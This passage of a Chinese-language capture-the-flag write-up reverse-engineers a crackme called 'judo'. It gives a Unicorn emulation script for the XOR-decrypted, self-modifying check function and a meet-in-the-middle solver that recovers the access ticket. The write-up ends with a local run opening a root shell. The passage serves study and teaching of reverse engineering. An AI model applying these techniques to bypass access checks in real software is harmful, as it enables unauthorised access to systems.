1. 从文件中取出 `.data + 0x1000`​ 到 `.data + 0x5000` 的 0x4000 字节。
2. 先对每个字节 XOR `0x37`，对应主程序第一层解密。
3. 映射输入缓冲区、栈和三个表。
4. 设置寄存器：

```text
rdi = input
rsi = table_2020
rdx = table_6020
rcx = table_7020
```

5. 运行函数，记录 16 个 `cmp dl, al` 比较点。

用于观察比较点的脚本：

```python
from pathlib import Path
from unicorn import *
from unicorn.x86_const import *
import struct

orig = Path("judo").read_bytes()

CODE  = 0x100000
STACK = 0x200000
IN    = 0x300000
T1    = 0x400000
T2    = 0x410000
T3    = 0x420000
RET   = 0xdead000

CMP_OFFS = [
    0x1d15, 0x1efd, 0x20e5, 0x22cd,
    0x24b5, 0x269d, 0x2885, 0x2a6d,
    0x2c55, 0x2e3d, 0x3025, 0x320d,
    0x33f5, 0x35dd, 0x37c5, 0x39ad,
]

CMP_ADDRS = {CODE + off: i for i, off in enumerate(CMP_OFFS)}

def run(inp: bytes, collect=False):
    mu = Uc(UC_ARCH_X86, UC_MODE_64)

    for addr, size in [
        (CODE, 0x5000),
        (STACK, 0x20000),
        (IN, 0x1000),
        (T1, 0x8000),
        (T2, 0x2000),
        (T3, 0x1000),
        (RET, 0x1000),
    ]:
        mu.mem_map(addr, size, UC_PROT_ALL)

    code = bytes(x ^ 0x37 for x in orig[0x9000:0xd000])
    mu.mem_write(CODE, code)

    mu.mem_write(T1, orig[0x2020:0x2020 + 0x4000])
    mu.mem_write(T2, orig[0x6020:0x6020 + 0x1000])
    mu.mem_write(T3, orig[0x7020:0x7020 + 0x100])
    mu.mem_write(IN, inp + b"\x00")

    rsp = STACK + 0x18000
    mu.reg_write(UC_X86_REG_RSP, rsp)
    mu.mem_write(rsp, struct.pack("<Q", RET))

    mu.reg_write(UC_X86_REG_RDI, IN)
    mu.reg_write(UC_X86_REG_RSI, T1)
    mu.reg_write(UC_X86_REG_RDX, T2)
    mu.reg_write(UC_X86_REG_RCX, T3)

    cmps = []

    def hook(mu, address, size, data):
        if address in CMP_ADDRS:
            al = mu.reg_read(UC_X86_REG_RAX) & 0xff
            dl = mu.reg_read(UC_X86_REG_RDX) & 0xff
            cmps.append((CMP_ADDRS[address], dl, al))

        if address == RET:
            raise UcError(UC_ERR_OK)

    mu.hook_add(UC_HOOK_CODE, hook)

    try:
        mu.emu_start(CODE, RET, count=200000)
    except UcError as e:
        if e.errno != UC_ERR_OK:
            raise

    eax = mu.reg_read(UC_X86_REG_RAX) & 0xffffffff
    return (eax, cmps) if collect else eax

eax, cmps = run(b"A" * 16, True)
print("eax =", eax)
for c in cmps:
    print(c)
```

对于输入 `AAAAAAAAAAAAAAAA`，可以观察到 16 个比较：

```text
(0, 165, 168)
(1, 38, 17)
(2, 52, 87)
(3, 149, 117)
(4, 108, 200)
(5, 238, 232)
(6, 238, 227)
(7, 91, 93)
(8, 11, 27)
(9, 150, 94)
(10, 205, 176)
(11, 233, 124)
(12, 0, 88)
(13, 210, 64)
(14, 93, 61)
(15, 119, 172)
```

每一项含义：

```text
(比较编号, dl, al)
```

校验要求所有比较都满足：

```text
dl == al
```

## 分组关系

修改单个输入字节，观察哪些比较点变化，可以得到输入和比较结果的分组关系：

```text
input[0..3]    影响 cmp[0, 7, 10, 13]
input[4..7]    影响 cmp[1, 4, 11, 14]
input[8..11]   影响 cmp[2, 5, 8, 15]
input[12..15]  影响 cmp[3, 6, 9, 12]
```

也就是说 16 字节输入可以拆成 4 组，每组 4 字节独立求解。

比较前还经过了 `0x6020`​ 表的置换。`0x6020` 表的规律是：

```text
out = byte ^ 0x9c
```

所以可以把比较两边都 XOR `0x9c` 后处理。

目标值来自 `0x7020`​ 的前 16 字节。经过 XOR `0x9c` 后：

```text
target index:
34 8d cb e9 54 74 7f c1 87 c2 2c e0 c4 dc a1 30
```

## 求解脚本

因为每组只有 4 个可打印字符，可以对每组做 meet-in-the-middle：

1. 先用 `AAAA` 作为基准。
2. 分别枚举每个位置的可打印字符，计算它对 4 字节输出的 XOR 贡献。
3. 前两个字符建表，后两个字符查表。
4. 每组求出一组满足目标的 4 字节。

完整求解脚本：

```python
import itertools
from emu_judo import run

printable = range(0x20, 0x7f)

groups = [
    ([0, 1, 2, 3], [0, 7, 10, 13]),
    ([4, 5, 6, 7], [1, 4, 11, 14]),
    ([8, 9, 10, 11], [2, 5, 8, 15]),
    ([12, 13, 14, 15], [3, 6, 9, 12]),
]

base = bytearray(b"A" * 16)
_, cm_base = run(bytes(base), True)

base_idx = [dl ^ 0x9c for _, dl, al in cm_base]
target_idx = [al ^ 0x9c for _, dl, al in cm_base]

sol = bytearray(base)

for positions, cmpos in groups:
    base_out = bytes(base_idx[i] for i in cmpos)
    target = bytes(target_idx[i] for i in cmpos)

    base_int = int.from_bytes(base_out, "little")
    target_int = int.from_bytes(target, "little")

    contrib = []

    for p in positions:
        d = {}
        for ch in printable:
            inp = bytearray(base)
            inp[p] = ch
            _, cm = run(bytes(inp), True)
            out = bytes((cm[i][1] ^ 0x9c) for i in cmpos)
            d[ch] = int.from_bytes(out, "little") ^ base_int
        contrib.append(d)

    left = {}
    for a, b in itertools.product(printable, repeat=2):
        val = base_int ^ contrib[0][a] ^ contrib[1][b]
        left.setdefault(val, (a, b))

    found = None
    for c, d in itertools.product(printable, repeat=2):
        need = target_int ^ contrib[2][c] ^ contrib[3][d]
        if need in left:
            found = left[need] + (c, d)
            break

    for p, ch in zip(positions, found):
        sol[p] = ch

print(sol.decode())

eax, cm = run(bytes(sol), True)
print("eax =", eax)
print("all comparisons ok =", all(dl == al for _, dl, al in cm))
```

运行结果：

```text
group [0, 1, 2, 3]     -> Dug&
group [4, 5, 6, 7]     -> ?MUb
group [8, 9, 10, 11]   -> $~y=
group [12, 13, 14, 15] -> b5cu

candidate: Dug&?MUb$~y=b5cu
eax = 1
all comparisons ok = True
```

所以正确输入为：

```text
Dug&?MUb$~y=b5cu
```

## 本地验证

直接运行原始二进制：

```bash
$ ./judo
Internal Emergency Access Portal
Please enter the diagnostic ticket: Dug&?MUb$~y=b5cu
root@IMI25PWN:/mnt/hgfs/Downloads/26ccb/nw/test_judo# whoami; id; echo OK
root
uid=0(root) gid=0(root) groups=0(root)
OK
```

成功进入 `/bin/bash`。

## 总结

本题的关键点：

1. ​`s3cRet_t1CkET_!!` 是诱饵。
2. ​`call 144e; add [rsp], 0x2a; ret`​ 修改返回地址，跳过明文 `strcmp`。
3. 真正校验函数藏在 `.data + 0x1000`。
4. 程序先 `mprotect`​ 改 RWX，再 XOR `0x37` 解密 0x4000 字节并执行。
5. 动态函数内部继续自修改，静态反汇编噪声很大。
6. 用 Unicorn 模拟真实执行，hook 16 个比较点，可以稳定求解。
7. 最终 ticket 是：

```text
Dug&?MUb$~y=b5cu
```
